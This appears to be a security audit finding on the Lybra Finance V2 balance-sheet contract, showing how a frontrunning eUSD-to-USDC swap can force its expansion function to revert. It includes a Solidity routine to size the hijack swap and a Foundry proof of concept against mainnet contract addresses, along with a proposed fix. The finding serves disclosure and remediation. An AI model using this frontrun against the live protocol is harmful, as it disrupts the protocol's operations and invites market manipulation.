 # Expansion of balance sheet might be reverted by frontrunning eUSD->USDC swap, thus failing to achieve of monetary objective.

## Bug Description
Expansion of balance sheet will be conducted by LybraBalanceSheet to mint new eUSD and swap it for USDC from 3CRV-eUSD Curve pool.

If USDC amount received is not greater than eUSD amount sent, it will revert.

A malicious hacker can frontrun with calcuated amount of eUSD->USD swap so that USDC amount received will not be greater than eUSD amount sent.

Thus, monetary objective will not be achieved.

https://github.com/LybraFinance/LybraV2/blob/main/contracts/lybra/pools/LybraBalanceSheet.sol#L50-L59
```
    function expandBalanceSheet(uint256 amount) external activated onlyOwner {
        EUSD.mint(address(this), amount);
        EUSD.approve(address(curvePool), amount);
        uint256 preBalance = USDC.balanceOf(address(this));
        curvePool.exchange_underlying(0, 2, amount, amount / 1e12);
        uint256 received = USDC.balanceOf(address(this)) - preBalance;
        require(received > amount / 1e12, "eUSD must be sold at a premium");
        totalBorrowed += amount;
        emit ExpandBalanceSheet(amount, received, block.timestamp);
    }
```

Here's view function that calculate required eUSD amount to hijack expansion of balance sheet through binary search.

```
    function getRequiredEUSDToHijack(ICurvePool pool, uint256 expansionAmount) returns (uint256 amount) {
        uint256 max_dx = expansionAmount + 100000000 ether;
        uint256 min_dx = expansionAmount;
        uint256 dx;

        for (uint256 i = 0; i < 256; i++) {
            dx = (min_dx + max_dx) / 2;
            if (curvepool.get_dy_underlying(0, 2, dx) > dx / (10 ** 12)) {
                min_dx = dx;
            } else {
                max_dx = dx;
            }
        }
        return dx - expansionAmount;
    }
```

## Impact
Failing to achieve of monetary objective, thus giving a room for market manipulation.

## Recommendation
Should use eUSD price target rather than amount for monetary expansion parameter.

```
-   function expandBalanceSheet(uint256 amount) external activated onlyOwner {
+   function expandBalanceSheet(uint256 priceTarget) external activated onlyOwner {
+       uint256 amount = getRequiredEUSDForPriceTarget(pool, priceTarget, 10000000 ether);

        EUSD.mint(address(this), amount);
        EUSD.approve(address(curvePool), amount);
        uint256 preBalance = USDC.balanceOf(address(this));
        curvePool.exchange_underlying(0, 2, amount, amount / 1e12);
        uint256 received = USDC.balanceOf(address(this)) - preBalance;
        require(received > amount / 1e12, "eUSD must be sold at a premium");
        totalBorrowed += amount;
        emit ExpandBalanceSheet(amount, received, block.timestamp);
    }

+    function getRequiredEUSDForPriceTarget(ICurvePool pool, uint256 priceTarget, uint256 maximumAmount)
+           returns (uint256 amount)
+    {
+        uint256 max_dx = maximumAmount;
+        uint256 min_dx;
+        uint256 dx;

+        for (uint256 i = 0; i < 256; i++) {
+            dx = (min_dx + max_dx) / 2;
+            if (curvepool.get_dy_underlying(0, 2, dx) > dx / priceTarget) {
+                min_dx = dx;
+            } else {
+                max_dx = dx;
+            }
+        }
+        return dx;
+    }
```

## Proof of Concept
```
pragma solidity 0.8.20;

import "forge-std/Test.sol";

import "@openzeppelin/contracts/interfaces/IERC20.sol";
import "../src/interfaces/IUniswapPairV2.sol";

interface ILybraBalanceSheet {
    function expandBalanceSheet(uint256 amount) external;
    function owner() external view returns (address);
}

interface ICurvePool{
    function exchange_underlying(int128 i, int128 j, uint256 dx, uint256 min_dy) external returns(uint256);
    function get_dy_underlying(int128 i, int128 j, uint256 dx) external view returns(uint256);
}

contract ContractTest is Test {
    ILybraBalanceSheet  balanceSheet = ILybraBalanceSheet(0x51A11e98926bc047cbD0242A41C04FcBC15f849B);
    ICurvePool          pool = ICurvePool(0x2673099769201c08E9A5e63b25FBaF25541A6557);
    address             eUSD = 0xdf3ac4F479375802A821f7b7b46Cd7EB5E4262cC;
    address             hacker = 0xC53127AF77cBa7D07DC08e271bD0826c55f97467;

    function setUp() public {
        vm.createSelectFork("mainnet");

        vm.label(address(pool), "CurvePool");
        vm.label(address(balanceSheet), "LBS");
    }
    

    function testLBS() public {
        uint256 expansionAmount = 10000000 ether;
        uint256 hijackAmount = getRequiredEUSDToHijack(expansionAmount);

        emit log_named_decimal_uint("Expansion amount:", expansionAmount, 18);
        emit log_named_decimal_uint("Hijack amount:", hijackAmount, 18);

        emit log_named_decimal_uint("Frontrunning with eUSD->USDC swap:", hijackAmount, 18);
        vm.startPrank(hacker);
        IERC20(eUSD).approve(address(pool), hijackAmount);
        pool.exchange_underlying(0, 2, hijackAmount, 0);
        vm.stopPrank();
        
        emit log_named_decimal_uint("Expansion of balance sheet will revert", hijackAmount, 18);
        vm.startPrank(balanceSheet.owner());
        vm.expectRevert();
        balanceSheet.expandBalanceSheet(expansionAmount);
        vm.stopPrank();
    }

    function getRequiredEUSDToHijack(uint256 expansionAmount) public view returns (uint256 amount) {
        uint256 max_dx = expansionAmount * 2;
        uint256 min_dx = expansionAmount;
        uint256 dx;

        for (uint256 i = 0; i < 30; i++) {
            dx = (min_dx + max_dx) / 2;
            if (pool.get_dy_underlying(0, 2, dx) > dx / (10 ** 12)) {
                max_dx = dx;
            } else {
                min_dx = dx;
            }
        }
        return dx - expansionAmount;
    }
}
```